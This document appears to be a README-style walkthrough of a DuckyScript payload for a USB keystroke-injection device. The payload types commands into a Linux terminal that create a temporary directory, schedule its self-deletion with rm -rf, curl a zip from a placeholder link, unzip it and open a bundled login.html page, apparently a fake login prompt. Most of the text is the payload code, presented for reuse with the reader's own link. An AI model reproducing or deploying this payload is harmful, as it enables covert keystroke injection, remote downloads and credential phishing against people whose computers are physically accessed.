 ## DuckyScript Documentation

This DuckyScript code performs several actions related to downloading and unzipping a file from a specified link. The script creates a new random directory, downloads a zip file from the specified URL, and unzips it. It also opens a login page.

- First, the script creates a new random directory using the mktemp command and assigns its path to the dir_name variable. The DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Create a random directory
    STRINGLN dir_name=$(mktemp -d)
    DELAY 500
```

- Next, the script sets a timer using the sleep command to delete the directory after 60 minutes (3600 seconds). The rm -rf command is used to remove the directory and its contents. The & character is used to run this command in the background, allowing the script to continue running. Another DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Delete the directory after 60 minutes (3600 seconds)
    STRINGLN (sleep 3600 && rm -rf $dir_name) &
    DELAY 500
```

- The script then moves into the directory using the cd command and the dir_name variable. Another DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Move into the directory
    STRINGLN cd $dir_name
    DELAY 500
```

- Next, the script downloads the zip file from the specified URL using the curl command. The LOk option is used to download the file and give it the same name as the original file. The #ZIP_LINK placeholder should be replaced with the actual URL of the zip file. Another DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Download the zip from your own link
    STRINGLN curl -LOk "#ZIP_LINK"
    DELAY 500
```

- The script then unzips the downloaded file using the unzip command. The DELAY command is used again to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Unzip it
    STRINGLN unzip file.zip
    DELAY 500
```

- Finally, the script opens the login page using the xdg-open command and the login.html file. The exit command is used to terminate the script.
```DuckyScript
    REM Open the login page
    STRINGLN xdg-open login.html; exit;
```